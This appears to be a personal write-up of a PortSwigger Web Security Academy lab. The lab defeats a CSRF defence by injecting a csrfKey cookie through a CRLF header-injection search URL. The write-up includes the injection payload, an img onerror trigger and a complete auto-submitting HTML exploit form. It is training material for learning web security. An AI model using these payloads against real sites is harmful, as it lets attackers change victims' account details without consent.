 1. Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that changing the `session` cookie logs you out, but changing the `csrfKey` cookie merely results in the CSRF token being rejected. This suggests that the `csrfKey` cookie may not be strictly tied to the session.
3. ![[Pasted image 20250201202757.png]]
4. Open a private/incognito browser window, log in to your other account, and send a fresh update email request into Burp Repeater.
5. Observe that if you swap the `csrfKey` cookie and `csrf` parameter from the first account to the second account, the request is accepted.
6. Close the Repeater tab and incognito browser.
7. Back in the original browser, perform a search, send the resulting request to Burp Repeater, and observe that the search term gets reflected in the Set-Cookie header. Since the search function has no CSRF protection, you can use this to inject cookies into the victim user's browser.
8. Create a URL that uses this vulnerability to inject your `csrfKey` cookie into the victim's browser:
    
    `/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None`
8. Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab, ensuring that you include your CSRF token. The exploit should be created from the email change request.
9. Remove the auto-submit `<script>` block, and instead add the following code to inject the cookie:
    
    `<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">`
10. Change the email address in your exploit so that it doesn't match your own.


`<html>`
    `<body>`
        `<h1>Hello World!</h1>`
        `<form action="https:///0aa1007c0323e68e80cbf98100f0007a.web-security-academy.net/my-account/change-email" method="post" id="csrf-form">`
            `<input type="hidden" name="email" value="test5@test.ca">`
            `<input type="hidden" name="csrf" value="GcZCQZ5cefIwvMAsR4faupH2kAlXHww9">`
        `</form>`

        `<img src="https://0aa1007c0323e68e80cbf98100f0007a.web-security-academy.net/?search=hat%0d%0aSet-Cookie:%20csrfKey=bYuPKbmyIDmHsxiQc2GJOSASBg08GyzX%3b%20SameSite=None" onerror="document.forms[0].submit()">`
    `</body>`
`</html>`